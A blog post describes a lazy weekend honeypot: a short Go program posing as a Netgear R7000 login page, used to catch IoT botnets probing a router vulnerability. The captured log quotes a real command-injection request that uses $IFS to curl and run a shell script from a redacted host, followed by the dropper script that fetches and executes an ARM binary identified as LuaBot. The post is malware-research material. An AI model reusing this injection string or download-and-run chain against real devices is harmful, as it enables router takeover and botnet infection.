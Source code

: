 ```yaml
---
title: "Honeypotting for the Lazy: Weekend Fishing for Router Bots"
date: 2017-01-07T17:05:56+01:00
---
```


Recently I decided that I wanted to do a bit more malware analysis. I have a reverse engineering background of sorts, so I wasn’t so concerned with the mechanics of analysing the malware as I was with the question of how do I actually find a sample to analyse that is interesting to me and answers some sort of actual question, rather than purely being a learning exercise?

This happened to be a day or so after [the Netgear vulnerability affecting their consumer routers](https://nakedsecurity.sophos.com/2016/12/12/netgear-routers-have-gaping-remote-access-hole/) was released to the public and gave me a question to answer - would the IoT botnet authors add support for this vulnerability to their bots?

An important thing to realise about me: I’m incredibly lazy. I didn’t feel like learning to use complicated honeypotting tools or setting up a massive amount of infrastructure, just to answer a throwaway question I had on the weekend. So this presented another question: how could I fish for this malware as lazily as possible?

So with a fine Cornish cider in hand I wrote possibly the crappiest emulation of a router ever. It’s a 21-line Go program that looks like so:

```
package main

import (
    "net/http"
    "log"
)

func HelloServer(w http.ResponseWriter, req *http.Request) {
    log.Print(req)
    w.Header().Set("Content-Type", "text/html")
    w.Header()["WWW-Authenticate"] = []string{"Basic realm=\"NETGEAR R7000\""}
    w.WriteHeader(401)
}

func main() {
    http.HandleFunc("/", HelloServer)
    err := http.ListenAndServeTLS(":8443", "netgear.crt", "netgear.key", nil)
    if err != nil {
        log.Fatal("ListenAndServe: ", err)
    }
}
```

It listens on port 8443, like the real device, and looks on the surface about as much like the device as I could be bothered to make it look. It’s definitely not perfect! The headers are returned in the wrong order, it returns some headers the real device doesn’t, because Go’s net/http package added them and I was too lazy to work out how to remove them, the SSL certificate is just a self signed one I made with the same fields as the real Netgear certificate, and so on.

But I figured it might be good enough to fool an automated scanner, which is probably just looking for a string somewhere. And I was right!

I deployed this to a DigitalOcean VM that I had lying around, and then, because this device would usually be running on consumer/office ISP’s and not datacentres, had a few kind friends forward incoming traffic to their IP’s on port 8443 to my new VM.

A day or two later, something bit:

```
2016/12/13 12:17:54 &{GET / HTTP/1.1 1 1 map[Connection:[close] User-Agent:[Scanbot]] 0x8762b0 0 [] false REDACTED map[] map[] <nil> map[] REDACTED:52268 / 0xc21006fa80}
2016/12/13 12:17:55 &{GET /cgi-bin/;cd$IFS%22var%22;curl$IFS%22REDACTED:7778%22$IFS%22-o%22$IFS%22nya.sh%22;sh$IFS%22nya.sh%22 HTTP/1.1 1 1 map[Connection:[close] User-Agent:[Scanbot]] 0x8762b0 0 [] false REDACTED map[] map[] <nil> map[] REDACTED:54482 /cgi-bin/;cd$IFS"var";curl$IFS"REDACTED:7778"$IFS"-o"$IFS"nya.sh";sh$IFS"nya.sh" 0xc2100af660}
```

As you can see, the output is disgusting - because I just dumped Go’s object straight to the log. Lazy, remember.

But, we clearly have evidence here of something hitting us to determine if we are a Netgear and then attempting to exploit the vulnerability. Let’s take a look at the script:

```
curl http://REDACTED/arm_lsb > /var/nya
chmod 777 /var/nya
/var/nya
```

Yep, looks like some kind of IoT malware to me. And it was - if you’re interested, it turns out to be LuaBot, as described previously [here](http://blog.malwaremustdie.org/2016/09/mmd-0057-2016-new-elf-botnet-linuxluabot.html).

So, while not exactly a success at finding the worlds next superbug, my little weekend experiment did show that you don’t need to be a big shot researcher with budget and tools to match to go do stuff - just go do stuff. In a really hacky way if you want to, you can still go out and do stuff, even if you aren’t leet or are just really lazy.
